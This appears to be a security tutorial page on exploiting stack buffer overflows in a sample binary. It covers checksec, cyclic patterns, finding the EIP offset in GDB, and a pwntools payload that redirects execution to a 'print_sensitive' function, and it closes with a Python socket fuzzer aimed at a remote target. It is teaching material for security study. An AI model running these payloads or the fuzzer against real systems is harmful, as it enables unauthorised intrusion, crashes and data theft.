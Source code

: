 ```yaml
---
title: Buffer Overflow Attack
desc: An anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
tags: [Buffer, Exe, Overflow, Pwndbg, Pwntools]
alts: [Reverse-Engineering]
render_with_liquid: false
---
```


## 1. Investigation

1. **Check Security Properties**

    ```sh
    checksec ./sampleExe
    ```

    1. **Binary Qualities**

        - **RELRO** - Relocation Read-Only, which makes the global offset table (GOT) read-only.
        - **Stack Canaries** - Tokens placed after a stack to detect a stack overflow.
        - **NX** - Non-Executable. It prevents from shellcode.
        - **RWX** - Read-Write-Executable. It's vulnerable to shellcode.
        - **PIE** - Position Independent Executable. It loads the program dependencies into random locations.

2. **Send Data to Check if the Operation**

    1. **Start Executable**

        - **Direcly**

            ```sh
            ./exampleExe
            ```

        - **via TCP**

            ```sh
            nc <target-ip> <target-port>
            ```

    2. **Input String**

        After starting, input some string to check if the buffer overflow happens.

        ```sh
        # Input some string
        hello
        test

        # Input long string
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
        ```

## 2. Crash Replication and Control EIP/RIP

Instruction Pointer (IP), which is called  the EIP on 32-bit machines, and the RIP on 64-bit machines. The IP points to the next instruction to be executed.

1. **Generate Cyclic Pattern**

    Prepare a long string enough to overwrite the next instruction.

    ```sh
    # e.g. generate 100 characters
    cyclic 100 > pattern.txt
    # or
    msf-pattern_create -l 100 > pattern.txt
    ```

2. **Start Debugging with GDB (Pwndbg)**

    Before starting gdb, it’s recommended to setup the **[Pwndbg](https://github.com/pwndbg/pwndbg){:target="_blank"}** for easily debugging.

    ```sh
    # exampleExe is the example of executable file
    gdb exampleExe
    ```

3. **Run Program in Debugger**

    Use the generated text file of cyclic pattern for input.

    ```sh
    # r: run a program
    # Add an input from text file
    r < pattern.txt
    ```

    If the program crashes, check the invalid address and the EIP’s value of the  output.

    ```sh
    # They mean there is an invalid address at 0x4a4a4a.
    # Fir eip, it has been overwritten with 0x4a4a4a4a
    EIP  0x6161616a ('jaaa')

    Invalid address 0x6161616a
    ```

4. **Generate an Exploitable Cyclic with Pwntools**

    **[Pwntools](https://github.com/Gallopsled/pwntools){:target="_blank"}** is an exploit development library.  
    It also generates the exploitable cyclic pattern for buffer overflow attack.

    1. **Create a Generator Named “cyclic.py”.**

        ```py
        from pwn import *

        padding = cyclic(cyclic_find('jaaa'))
        eip = p32(0xdeadbeef)
        payload = padding + eip
        print(payload)
        ```

    2. **Generate Pattern**

        Note that you need to run with **Python2**.

        ```sh
        python2 cyclic.py > pwncyclic.txt
        ```

    3. **Input the Cyclic in GDB**

        ```sh
        gdb exampleExe

        # ----------------------------------------

        # In debugger

        # Input the pwn cyclic
        r < pwncyclic.txt
        ```

        Make sure that there is an invalid address at 0xdeadbeef.

        ```sh
        EIP  0xdeadbeef

        Invalid address 0xdeadbeef
        ```

        Find the location of the target function which will be used to pwn in gdb.

        For example, the executable contains the vulnerable function named “print_sensitive()”:

        ```sh
        print& print_sensitive

        # e.g. the location of the output is "0x8048536"
        ```

    4. **Regenerate Cyclic Pattern**

        1. **Replace the Address in Payload**

            Replace the 0xdeadbeef in the payload named “cyclic.py” with the location of the vulnerable function (0x8048536 in here). 

            ```py
            ...

            eip = p32(0x8048536)

            ...
            ```

        2. **Regenerate**

            ```sh
            python2 cyclic.py > pwncyclic.txt
            ```

        3. **Run Program using New Cyclic Pattern**

            Run the program using this cyclic file as input.  
            You may be able to retrieve some sensitive data via the vulnerable function.

            ```sh
            ./exampleExe < pwncyclic.txt
            ```

<br />

## 3. Fuzzing using Python

1. **Create Python Script**

    ```py
    import socket, time, sys

    ip = "<target-ip>"
    port = <target-port>
    timeout = 5
    prefix = "OVERFLOW1 "
    string = prefix + "A" * 100

    while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
    ```

2. **Run the Payload**

    When the fuzzer crashes the server with one of the strings, make a note of the largest number of bytes that were sent e.g. “1900 bytes”, “2000bytes”.

    ```sh
    python3 fuzzer.py
    ```